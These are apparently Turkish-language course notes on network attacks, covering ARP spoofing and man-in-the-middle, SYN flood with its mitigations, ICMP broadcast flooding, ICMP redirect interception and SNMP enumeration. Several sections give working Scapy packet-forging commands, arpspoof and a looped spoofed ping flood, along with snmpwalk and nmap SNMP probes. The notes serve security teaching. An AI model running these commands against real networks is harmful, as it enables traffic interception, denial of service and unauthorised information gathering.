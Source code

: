 ## Network Saldırıları

**- ARP Kullanılarak Yapılabilecek Saldırı Örnekleri:** Haberleşmek isteyen sistemlerin ya haberleşememesine sebep olmak ya da haberleşmeleriyle ilgili olan kısma kendisini de dahil etmektir. Maksat zarar vermek ise, servis dışı etmek için kullanılabilir(DoS). Maksat fayda sağlamak ise hedefin trafiğinin kendi üzerimizden geçmesini sağlamaktır. Trafiği kendi üzerimizden geçirdiğimiz saldırı türü Man in the Middle(MITM) olarak adlandırılır.

**- İşleyiş:** Attacker, server ile client arasında ARP ile bağlantı kurar. Attacker, server'in IP adresine kendi MAC adresini ekleyerek client'e ARP paketi yollar. Client'in ARP tablosundaki IP-MAC değerleri yoksa yazılır, varsa saldırganın yolladığı şekilde güncellenir. Bir sonraki isteği client, saldırgana yollayacaktır. Eğer saldırgan aynı işlemi server için de yaparsa (kendi IP'sini client olarak gösterip MAC adresine kendi MAC adresini vermek) Man in the middle saldırısı olacak ve trafik saldırganın üzerinden geçecek. Eğer saldırgan server için bu işlemi yapmazsa client cevap alamayacak ve servis dışı kalacak(Dos). 

**- Uygulama:**

    -Server IP: 192.168.0.23, MAC:00:0c:29:6b:f3:9f
    
    -Client IP: 192.168.31.31, MAC:00:0c:29:6b:97:48
    
    -Attacker IP: 192.168.0.105, MAC:00:0c:29:f0:0b:61

    => scapy
    
    => sendp(Ether(dst="00:0c:29:6b:97:48")/ARP(op=2,psrc="192.168.0.23",pdst="192.168.31.31",hwsrc="00:0c:29:f0:0b:61",hwdst="00:0c:29:49:97:48")) 
    
    => sendp(Ether(dst="00:0c:29:6b:f3:9f")/ARP(op=2,psrc="192.168.31.31",pdst="192.168.0.23",hwsrc="00:0c:29:f0:0b:61",hwdst="00:0c:29:49:f3:9f"))
    
    => echo 1 > /proc/sys/net/ipv4/ip_forward/ (router = 1 yapma işlemi)

  * Tool kullanarak:
    
    => arpspoof -i eth0 -c both

**- SYN Flood:** Sahte bir IP ile sürekli SYN paketi yollanır. Yollanan paketleri hedef SYN tablosunda tutar. Hedefin döndürdüğü SNY+ACK paketi boşa gideceği için cevap gelmez ve tablonun boyutu artar (DoS). 

  * **Alınabilecek önlemler:** 
  
  **1.** Tablonun boyutunu arttırmak (Maliyet + çözüm değil). 
    
  **2. Syn proxy:** (Syn proxy'i bütün portlara syn yollayarak tespit edebiliriz. Eğer kapalı port yoksa syn proxy ile karşı karşıya olduğumuzu anlarız.) Hedef ile aramızda durarak SYN paketlerini kendi üzerine alır SYN+ACK gönderir. ACK geri geldiğinde paketi hedefe ulaştırır. 

  **3. Syn proxy cookie:** Threeway Handshake esnasında değişmeyen 4 bilgi var. Bunlar: Source IP, Source Port, Destination IP, Destination Port. Makine bir fonksiyon ile bu 4 bilgiyi ve bir de makine çalıştırılmaya başladığında RAM de random oluşan bir değeri topluyor. Ardından bu "toplam"ı SYN isteği yollayan makinelere SYN+ACK döndüreceği zaman sequence number olarak kullanıyor. Kendisine threeway handshake'in son aşaması olan ACK paketi döndüğünde ACK sayısı "toplam"+1 olmak zorunda. "toplam"+1 den 1 çıkarıp gelen ACK paketini doğruluyor.

**- UDP/ICMP kullanılarak yapılabilecek bir saldırı:** İç ağdayken ağdaki herkese kaynak IP, hedefin IP'si olarak gösterilip ping yollanır. Herkes birden hedefe ping reply döner. 

  **- Uygulama:**

    => echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts (broadcast yapabilmemiz için bu dosyanın değerinin 0 olması gerek, yoksa icmp paketlerini broadcast olarak yollayamayız.)
    
    => scapy
    
    => send(IP(src="hedef",dst="broadcast")/ICMP(type=8),loop=1)

**- ICMP Redirect(type=5):** ICMP Redirect mesajı, kendisine ulaşmak isteyen makineye bir router(yönlendirici) tarafından eğer bağlanabileceği daha iyi bir router varsa, bunun bilgisini döndürür.

**- ICMP Redirect ile Man in the Middle Attack (ICMP type=5):** Hedefe daha iyi bir router olduğunu, bu router'in biz olduğumuzu söylediğimiz saldırı. Bu sayede hedef bizi router olarak kullanmaya çalışacak, hedefin trafiğini üzerimize alacağız. 
      => scapy
      
      => send(IP(src="192.168.0.1",dst="192.168.0.9")/ICMP(type=5,code=1,gw="192.168.0.10")/IP(src="192.168.0.9",dst="46.45.154.70")/TCP(flags="S",dport=80,sport=5555))

**- SNMP (Simple Network Management Protocol):** SNMP, UDP Protokolü ile çalışır. 161 portunu kullanır.

**- MIB/OID:** Ağın dallara ayrılarak hangi dalın kaçıncı MIB'i şeklinde bir sorguya dönen bilgiler OID diye geçer. Bu bilgilerle MIB içerisinde konumunu bildiğimiz bir makinenin OID bilgilerine ulaşabiliriz.

  - MIB sayılarla ifade edilir. Alt dallara geçmek için araya nokta konur. 
  
  - Örnek: .1.3.6

**- Community String:** SNMP paketi içerisinde yer alan bir bilgidir. 

  * SNMP paketi içerisinde yer alan community string'ler: Public(read only), private(write). Community string ele geçirilerek bu yetkiler elde edilebilir.

  * Üç versiyon vardır. V1 ve V2 Community String üzerinden gider. V3 ise username-password'da kullanır.

  **- Uygulama:**  
    
    => snmpwalk -v 1 -c public 192.168.0.39 .1.3.6.1.2.1.2.2

  * İnternette "linux system oid's" şeklinde arama yapılarak OID örneklerine ulaşılabilir.

**- Ödev:** 192.168.0.39'dan SNMP ile bilgi topla:

    => snmpwalk -v 1 -c public 192.168.0.39 .1.3.6.1.2.1.2.2

    - NMAP ile: => nmap -p161 -T5 -sU --script=snmp-*.nse 192.168.0.39 -vv

## Soru-Cevap

- TCP/UDP'de yapacağımız IP sahteciliği (IP Spoofing) başarılı olabilir mi?

  * TCP içerisinde çok zor. Eğer seq/ack sayılarına sahipsek yapabiliriz. UDP içerisinde ise herhangi bir doğrulama sistemi olmadığı için basitçe yapılabilir.

###### Notlar 

- TCP'de IP spoofing, olmayan bir IP spoof edilerek karşıya kör(blind) bir şekilde, cevapları almadan sürekli paket yollanılarak yapılır. Eğer spoof ettiğimiz IP gerçekten kullanılıyor ise, RST döner.

- [Scapy ile SYN Flood ödevi](../99-Scapy-Ornekleri/Scapy_Syn_Flood/syn_flood.py)

- [Scapy ile SNMP bilgi toplama ödevi](../99-Scapy-Ornekleri/Scapy_SNMP/scapy_snmp.py)

